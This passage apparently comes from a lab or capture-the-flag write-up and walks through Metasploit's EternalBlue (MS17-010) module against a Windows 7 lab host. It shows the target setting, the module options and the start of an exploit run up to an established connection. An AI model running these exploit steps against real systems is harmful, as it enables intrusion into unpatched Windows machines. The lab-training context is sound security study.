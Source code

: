 Set the `RHOSTS` attribute to the machine IP address as shown below

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.190.255
RHOSTS => 10.10.190.255
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.190.255    yes       The target host(s), see https://docs
                                             .metasploit.com/docs/using-metasploi
                                             t/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use
                                              for authentication. Only affects Wi
                                             ndows Server 2008 R2, Windows 7, Win
                                             dows Embedded Standard 7 target mach
                                             ines.
   SMBPass                         no        (Optional) The password for the spec
                                             ified username
   SMBUser                         no        (Optional) The username to authentic
                                             ate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches
                                              exploit Target. Only affects Window
                                             s Server 2008 R2, Windows 7, Windows
                                              Embedded Standard 7 target machines
                                             .
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit T
                                             arget. Only affects Windows Server 2
                                             008 R2, Windows 7, Windows Embedded
                                             Standard 7 target machines.
```

Use `exploit` or `run` to start the exploitation.

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.46.162
RHOSTS => 10.10.46.162
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit                                                                                                                                                                                                                                                                                                                            
[*] 10.10.46.162:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check                                                                                                                                               
[+] 10.10.46.162:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)                                                                                           
[*] 10.10.46.162:445      - Scanned 1 of 1 hosts (100% complete)                                                                                                                                                       
[+] 10.10.46.162:445 - The target is vulnerable.                                                                                                                                                                       
[*] 10.10.46.162:445 - Connecting to target for exploitation.                                                                                                                                                          
[+] 10.10.46.162:445 - Connection established for exploitation.                                                                                                                                                        
```